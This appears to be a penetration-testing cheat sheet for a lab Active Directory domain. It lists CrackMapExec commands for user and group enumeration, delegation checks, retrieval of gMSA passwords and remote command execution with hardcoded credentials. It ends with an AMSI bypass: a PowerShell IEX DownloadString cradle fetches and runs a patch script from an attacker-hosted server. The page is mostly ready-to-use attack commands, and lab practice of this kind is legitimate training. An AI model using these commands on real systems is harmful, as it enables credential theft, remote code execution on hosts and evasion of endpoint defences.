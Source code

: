 ### <mark style="color:yellow;">LDAP and RDP enum</mark>

<pre class="language-bash"><code class="lang-bash"># Users and groups
crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 --users --groups

# PASSWD_NOTREQD Attribute
crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 --password-not-required

# Unconstrained Delegation
crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 --trusted-for-delegation

<strong># Get domain SID
</strong>crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 --get-sid
</code></pre>

### <mark style="color:yellow;">gMSA</mark>

```bash
# check accounts with gMSA privileges
crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"

# Get gMSA password
crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 --gmsa
```

### <mark style="color:yellow;">Command Execution</mark>

NXC uses wmiexec, atexec, smbexec, mmcexec. Also using smb, ssh or winrm.

```bash
# Execute command as local admin
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 --local-auth -x "net localgroup administrators" 

# Domain account
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 -x whoami

# Set Method
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 --exec-method smbexec -x whoami
```

#### AMSI bypass

```bash
# Download file with Modified Amsi ScanBuffer Patch
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/shantanukhande-amsi.ps1 -q

# Create and host PS Script
echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.33/shantanukhande-amsi.ps1');" > amsibypass.txt
sudo python3 -m http.server 80

# Run AMSI bybpass
crackmapexec ldap dc01.zencorp.htb -u robert -p pass@123 -X '$PSVersionTable' --amsi-bypass amsibypass.txt
```
